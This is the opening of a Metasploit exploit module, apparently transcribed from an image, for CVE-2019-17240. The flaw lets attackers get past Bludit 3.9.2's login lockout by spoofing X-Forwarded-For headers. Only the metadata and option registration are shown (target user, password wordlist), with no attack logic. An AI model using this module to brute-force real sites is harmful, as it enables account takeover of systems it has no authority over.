 class MetasploitModule < Msf::Exploit::Remote
  Rank = ExcellentRanking

  include Msf::Exploit::Remote::HttpClient
  include Msf::Exploit::PhpEXE
  include Msf::Auxiliary::Report
  
  def initialize(info={})
    super(update_info(info,
      'Name'           => "Bludit 3.9.2 - Authentication Bruteforce Mitigation Bypass",
      'Description'    => %q{
        Versions prior to and including 3.9.2 of the Bludit CMS are vulnerable to a bypass of the anti-brute force mechanism that is in place to block users that have attempted to login incorrectly ten times or more. Within the bl-kernel/security.class.php file, a function named getUserIp attempts to determine the valid IP address of the end-user by trusting the X-Forwarded-For and Client-IP HTTP headers.
      },
      'License'        => MSF_LICENSE,
      'Author'         =>
        [
          'rastating', # Original discovery
          '0ne-nine9'  # Metasploit module
        ],
      'References'     =>
        [
          ['CVE', '2019-17240'],
          ['URL', 'https://rastating.github.io/bludit-brute-force-mitigation-bypass/'],
          ['PATCH', 'https://github.com/bludit/bludit/pull/1090' ]
        ],
      'Platform'       => 'php',
      'Arch'           => ARCH_PHP,
      'Notes'          =>
        {
          'SideEffects' => [ IOC_IN_LOGS ],
          'Reliability' => [ REPEATABLE_SESSION ],
          'Stability'   => [ CRASH_SAFE ]
        },
      'Targets'        =>
        [
          [ 'Bludit v3.9.2', {} ]
        ],
      'Privileged'     => false,
      'DisclosureDate' => "2019-10-05",
      'DefaultTarget'  => 0))
      
     register_options(
      [
        OptString.new('TARGETURI', [true, 'The base path for Bludit', '/']),
        OptString.new('BLUDITUSER', [true, 'The username for Bludit']),
        OptPath.new('PASSWORDS', [ true, 'The list of passwords',
        	File.join(Msf::Config.data_directory, "wordlists", "passwords.txt") ])
      ])
  end
  